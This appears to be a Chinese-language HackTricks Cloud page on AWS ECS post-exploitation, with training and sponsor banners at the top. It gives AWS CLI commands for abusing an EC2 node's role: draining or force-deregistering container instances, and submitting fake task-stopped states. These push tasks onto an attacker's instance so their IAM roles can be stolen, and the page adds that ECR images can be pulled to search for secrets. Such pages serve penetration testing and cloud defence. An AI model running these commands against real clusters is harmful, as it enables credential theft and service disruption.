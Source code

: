 # AWS - ECS后渗透

{% hint style="success" %}
学习并实践AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## ECS

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### 主机IAM角色

在ECS中，**IAM角色可以分配给**运行在容器内的任务。**如果**任务在**EC2**实例内运行，则**EC2实例**将附加**另一个IAM**角色。\
这意味着如果您设法**入侵**ECS实例，则可能**获取与ECR和EC2实例关联的IAM角色**。有关如何获取这些凭据的更多信息，请查看：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf" %}

{% hint style="danger" %}
请注意，如果EC2实例正在强制执行IMDSv2，[**根据文档**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html)，**PUT请求的响应**将具有**1个跳数限制**，这将使得无法从EC2实例内的容器访问EC2元数据。
{% endhint %}

### 提升权限到节点以窃取其他容器的凭据和机密信息

此外，EC2使用docker来运行ECS任务，因此如果您可以逃逸到节点或**访问docker套接字**，您可以**检查**正在运行的**其他容器**，甚至**进入其中**并**窃取它们的IAM角色**。

#### 使容器在当前主机上运行

此外，**EC2实例角色**通常具有足够的**权限**来**更新用作节点的EC2实例**的容器实例状态。攻击者可以修改实例的**状态为DRAINING**，然后ECS将**从中删除所有任务**，并且作为**REPLICA**运行的任务将在不同的实例中运行，可能在**攻击者实例**内部，以便他可以**窃取它们的IAM角色**和容器内的潜在敏感信息。
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
同样的技术可以通过**从集群中注销 EC2 实例**来实现。这可能不够隐蔽，但会**强制任务在其他实例上运行：**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
一个强制重新执行任务的最终技术是告诉 ECS **任务或容器已停止**。有三个潜在的 API 可以实现这一点：
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### 从 ECR 容器中窃取敏感信息

EC2 实例可能还具有权限 `ecr:GetAuthorizationToken`，允许其**下载镜像**（您可以在其中搜索敏感信息）。
